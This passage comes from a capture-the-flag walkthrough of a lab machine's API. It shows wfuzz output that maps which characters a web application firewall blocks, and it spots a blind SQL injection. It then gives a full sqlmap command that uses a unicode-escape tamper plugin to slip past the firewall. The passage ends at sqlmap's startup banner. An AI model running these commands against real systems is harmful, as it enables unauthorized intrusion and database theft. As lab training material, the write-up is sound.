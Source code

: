     ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.179/api/getColleagues
    Total requests: 32
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000004:   403        29 L     92 W     1233 Ch     "#"
    000000021:   500        0 L      4 W      36 Ch       "\"
    000000029:   403        29 L     92 W     1233 Ch     "'"
    000000030:   500        0 L      4 W      36 Ch       """
    000000031:   403        29 L     92 W     1233 Ch     "<"
    000000032:   403        29 L     92 W     1233 Ch     ">"
    
    Total time: 0.537886
    Processed Requests: 32
    Filtered Requests: 26
    Requests/sec.: 59.49209
    

So the banned characters are at least `#'<>`, and `"` breaks things because
its double quotes already and `\` is the escape character.

#### Unicode

To get `wfuzz` working, I had to add the header for `Content-Type`. I just
grabbed it out of the request I had from Burp, but I noticed it specifically
called out the `charset=utf-8`. I looked up the character `'`, and it’s ASCII
hex value is 0x27. So I sent the name `\u27`, and got back and error:

![image-20200330205309230](https://0xdfimages.gitlab.io/img/image-20200330205309230.png)

That is a good sign there’s SQL injection, even if blind.

### Database Dump

Rather than do this manually (way too much encoding), I’ll turn to `sqlmap`.
I’ll right click on the request in Burp and select “Copy to file”, saving it
as `colleagues.request`. I’ll need some features:

  * The `charunicodeescape` [tamper plugin](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py) will unicode encode all the characters in the payload. This will avoid the WAF checking for bad characters.
  * `--delay 5` will slow down the process to one request every 5 seconds. It may have been able to go faster, but I was walking away for a bit, so I left it with this. I added `--proxy` so that I could see that requests were still going through Burp when it looks frozen.
  * `--level 5 --risk 3` turns up the things it’s willing to try to the max. `--batch` will take the default answer to any prompts.

    
    
    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.4.3#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    ...[snip]...
    [*] starting @ 18:08:31 /2020-03-30/
    